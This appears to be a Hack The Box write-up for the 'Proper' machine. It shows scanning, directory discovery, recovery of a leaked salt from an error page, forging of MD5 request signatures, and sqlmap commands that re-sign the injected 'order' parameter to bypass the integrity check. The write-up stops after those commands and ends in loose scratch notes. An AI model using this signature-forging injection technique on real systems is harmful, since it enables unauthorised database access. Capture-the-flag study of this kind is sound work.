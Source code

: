 ## ----------------->> Proper <<----------------

// We start with nmap scan

    $nmap -sV -A -Pn -T4 10.10.10.231 -p-
----------

    Nmap scan report for 10.10.10.231
    Host is up (0.23s latency).
    Not shown: 65534 filtered ports
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Microsoft IIS httpd 10.0
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: OS Tidy Inc.
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

// We can see only port 80(http) open, Lets check it out

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Proper/1.png)

// Its seems like some company products website,

// Move on to search for interesting directories or files with [dirsearch](https://github.com/maurosoria/dirsearch)(By maurosoria)

    $ python3 dirsearch.py -u http://10.10.10.231/ -t 100 -w /usr/share/dirb/wordlists/big.txt 
--------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 20469

    Output File: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/reports/10.10.10.231/_21-08-24_09-17-58.txt

    Error Log: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/logs/errors-21-08-24_09-17-58.log

    Target: http://10.10.10.231/

    [09:17:58] Starting: 
    [09:18:07] 301 -  150B  - /assets  ->  http://10.10.10.231/assets/
    [09:18:26] 301 -  152B  - /licenses  ->  http://10.10.10.231/licenses/

    Task Completed

// We found two directories /assets/ its Forbbiden but /licenses/ get us to login page

![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Proper/4.png)

// guessing and sql injection syntaxes didnt work...

// Moving on to BurpSuite and open the first page (http://10.10.10.231/index.html) With Reapeter

// The response shows us that there another directory that load with the /index.html

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Proper/2.png)

    /products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b
    
// Navigating to there, shows us all the company products

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Proper/3.png)

// Also 'order=id+desc' looks like SQL query i will change desc to asc(read more abot [desc&asc](https://www.guru99.com/order-by-desc-and-asc.html))

![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Proper/5.png)

// We got Forbidden page, Moving on...

// When removing the md5 hash from the browser we got error for parameter missing

![Image 6](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Proper/6.png)

// Lets try to remove 'h' parameter

// Now we get the same error but this time we get also crash details

![Image 7](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Proper/7.png)

// We got the secure-salt !

    'SECURE_PARAM_SALT','hie0shah6ooNoim'

// Lets check the hash with online hash-analyzer [tool](https://www.tunnelsup.com/hash-analyzer/)

![Image 8](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Proper/8.png)

// its md5 hash, we need to encrypt the salt now, we can do that with md5sum tool or online [tool](https://www.md5online.org/md5-encrypt.html)

    The MD5 hash for hie0shah6ooNoim is : 9094e65be4a9dc27cd4af70674a99c64

// And check the response status with curl

    $ curl -I http://10.10.10.231/products-ajax.php?order=id+asc&h='9094e65be4a9dc27cd4af70674a99c64'
-----

    HTTP/1.1 500 Internal Server Error
    Content-Length: 0
    Content-Type: text/html; charset=UTF-8
    Server: Microsoft-IIS/10.0
    X-Powered-By: PHP/7.4.1
    Date: Tue, 24 Aug 2021 19:03:47 GMT

// we got status 500 (Internal Error)

// After some tries it work when i encrypted the salt and add 'id acs' - "hie0shah6ooNoimid asc"

    $ echo -n "hie0shah6ooNoimid asc" | md5sum
    181345bd7fce37aad011ea65a41b60c8  -

// And lets check it

    $ curl -I 'http://10.10.10.231/products-ajax.php?order=id+asc&h=181345bd7fce37aad011ea65a41b60c8'
-----

    HTTP/1.1 200 OK
    Content-Length: 0
    Content-Type: text/html; charset=UTF-8
    Server: Microsoft-IIS/10.0
    X-Powered-By: PHP/7.4.1
    Date: Tue, 24 Aug 2021 18:49:52 GMT

// It worked !

// Now that we know the salt worked we can proceed to [sqlmap](https://github.com/sqlmapproject/sqlmap)tool with [this](https://securitypadawan.blogspot.com/2014/01/using-sqlmaps-eval-functionality-for.html) help to understand.

$sqlmap -u http://10.10.10.231/products-ajax.php?order=id+asc&h=181345bd7fce37aad011ea65a41b60c8 -p order --eval="import hashlib ; h=hashlib.md5(('hie0shah6ooNoim'+order).encode('utf-8')).hexdigest()" --batch --level=3 --risk=3 --skip-urlencode -v 5 --dbs

sqlmap -u "http://10.10.10.231/products-ajax.php?order=1" --batch --tamper=proper --level=3 --risk=3 --skip-urlencode

https://github.com/evyatar9/Writeups/tree/master/HackTheBox/Proper

http://10.10.10.231/products-ajax.php?order=id+desc&h=9094e65be4a9dc27cd4af70674a99c64

The MD5 hash for hie0shah6ooNoimid asc is : 181345bd7fce37aad011ea65a41b60c8
